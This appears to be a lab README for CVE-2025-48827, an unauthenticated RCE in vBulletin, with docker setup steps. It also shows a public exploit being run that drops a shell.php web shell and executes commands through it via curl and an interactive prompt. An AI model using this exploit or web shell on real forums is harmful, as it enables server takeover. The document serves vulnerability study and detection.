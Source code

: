 # CVE-2025-48827
vBulletin 5.0.0 through 5.7.5 and 6.0.0 through 6.0.3 allows unauthenticated users to invoke protected API controllers' methods when running on PHP 8.1 or later, as demonstrated by the /api.php?method=protectedMethod pattern, as exploited in the wild in May 2025.

## Notes

## Metrics
Base Score: 10.0 (CRITICAL) 

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```
Stop Environment and remove network:
```bash
docker compose down
```
## Detection and exploitation example
### Setup vBulletin manualy
1. Up compose Environment
2. Go to container_ip:80
3. Set common config:
    - DB_HOST: "db"
    - DB_NAME: "vulnforum"
    - DB_USER: "vbulletin"
    - DB_PASSWORD: "vbulletin"
    - EMAIL: any 
    - Other option: default
4. Remove makeconfig.php:
```shell
docker exec -it <container_id> rm core/install/makeconfig.php
```
5. Add new user
6. While you open Admin panel, you got an error:
```shell
docker exec -it <container_id> mv core/install/ core/install.bak
```

### Use exploit by 0xgh057r3c0n
```shell
git clone https://github.com/0xgh057r3c0n/CVE-2025-48827

python3 vbulletin.py http://172.90.240.2/

      __________      .__  .__          __  .__      ___________________ _______>
___  _\______   \__ __|  | |  |   _____/  |_|__| ____\______   \_   ___ \\_   __>
\  \/ /|    |  _/  |  \  | |  | _/ __ \   __\  |/    \|       _/    \  \/ |    _>
 \   / |    |   \  |  /  |_|  |_\  ___/|  | |  |   |  \    |   \     \____|     >
  \_/  |______  /____/|____/____/\___  >__| |__|___|  /____|_  /\______  /______>
              \/                     \/             \/       \/        \/       >

                             vBulletin RCE - Web Shell Dropper by 0xgh057r3c0n

[+] RCE payload injected.
[+] shell.php dropped at: http://172.90.240.2/shell.php
[!] Launch commands like:
    curl 'http://172.90.240.2/shell.php?cmd=whoami'

[!] Entering interactive mode (type 'exit' to quit)
(shell:.)$ whoami
[DEBUG] Full response:
www-data
```

## Exploits and PoCs
https://github.com/0xgh057r3c0n/CVE-2025-48827  
https://karmainsecurity.com/pocs/vBulletin-replaceAdTemplate-RCE.php  

## Nuclei Template

## CTF Rooms

## References
[NIST: CVE-2025-48827](https://nvd.nist.gov/vuln/detail/CVE-2025-48827)  
[karmainsecurity: Don't Call That "Protected" Method: Dissecting an N-Day vBulletin RCE](https://karmainsecurity.com/dont-call-that-protected-method-vbulletin-rce)  
[Quick Overview: Installing vBulletin](https://forum.vbulletin.com/forum/vbulletin-6/installation-upgrades/4483267-quick-overview-installing-vbulletin)  
